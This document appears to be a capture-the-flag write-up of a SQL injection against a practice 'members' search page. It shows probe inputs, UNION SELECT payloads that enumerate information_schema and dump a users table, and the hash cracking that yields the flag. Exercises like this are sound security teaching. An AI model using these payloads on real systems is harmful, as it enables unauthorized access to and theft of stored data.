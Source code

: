 # SQL_Injection_members

## SQL_Injection_explain

SQL injection attack refers to the operation that the attacker wants by constructing special input as a parameter and passing it into the web application, changing the semantics of the original SQL statement.

## Rest_sql_injection

    # input:
    "'", "--", "1 or 1=1" ...
    
    # result:
    "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1"

## Get_data

    # input:
    "1 or 1=1"
    
    # result:
    ID: 1 or 1=1 
    First name: Barack Hussein
    Surname : Obama

    ID: 1 or 1=1 
    First name: Adolf
    Surname : Hitler

    ID: 1 or 1=1 
    First name: Joseph
    Surname : Staline

    ID: 1 or 1=1 
    First name: Flag
    Surname : GetThe

## Analyze_data_and_try_to_find_information
    # Info we want to know:
    ID: 1 or 1=1 
    First name: Flag
    Surname : GetThe

    # input: (1) to find current database
    1 or 1=1 union SELECT null, table_name FROM information_schema.tables WHERE table_schema=database();

    # result: (1)
    ID: 1 or 1=1 union SELECT null, table_name FROM information_schema.tables WHERE table_schema=database(); 
    First name: 
    Surname : users

    # input: (2) to find columns informations
    1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 

    # result: (2)
    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : user_id

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : first_name

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : last_name

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : town

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : country

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : planet

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : Commentaire

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : countersign

## Final analysis
    # input: 
    1 or 1=1 union select null, concat(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users

    # result:
    ID: 1 or 1=1 union select null, concat(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users 
    First name: 
    Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

## Get the flag
    5ff9d0165b4f92b14994e5c685cdce28: MD5 Hash -> crack hash: FortyTwo
    fortytwo -> SHA256: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


## Solutions